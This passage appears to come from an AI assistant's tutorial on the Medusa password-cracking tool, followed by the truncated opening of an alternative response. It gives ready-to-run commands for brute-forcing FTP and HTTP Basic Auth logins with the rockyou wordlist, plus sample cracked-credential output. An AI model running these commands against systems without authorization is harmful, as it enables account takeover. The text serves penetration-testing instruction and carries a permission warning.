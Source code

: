 **Expected Output:**

```
[ssh] host: 192.168.1.100   login: admin   password: password123
```

#### 2. Brute-Forcing FTP

To brute-force FTP logins:

```bash
medusa -h <target_ip> -u username -P /path/to/passwords.txt -M ftp
```

**Example:**

```bash
medusa -h 192.168.1.100 -u admin -P /usr/share/wordlists/rockyou.txt -M ftp
```

**Expected Output:**

```
[ftp] host: 192.168.1.100   login: admin   password: admin123
```

#### 3. Brute-Forcing HTTP Basic Authentication

For web applications:

```bash
medusa -h <target_ip> -u username -P /path/to/passwords.txt -M http
```

**Example:**

```bash
medusa -h 192.168.1.100 -u admin -P /usr/share/wordlists/rockyou.txt -M http
```

**Expected Output:**

```
[http] host: 192.168.1.100   login: admin   password: mypassword
```

### Important Options

- **`-t <tasks>`**: Number of parallel tasks (default is 16).
- **`-v`**: Verbose mode to show each attempt.
- **`-o <output_file>`**: Saves the found credentials to a file.

### Conclusion

Medusa is a powerful tool for brute-forcing passwords across various services. Always ensure you have permission to test the systems you target, as unauthorized access is illegal.


                                 ALTERNATIVE 
Sure, I'm happy to help you with using the Medusa tool in Kali Linux.

Medusa is another powerful password cracking tool, similar to Hydra, that can be used for brute-force attacks against various network services. Here's how you can use it:
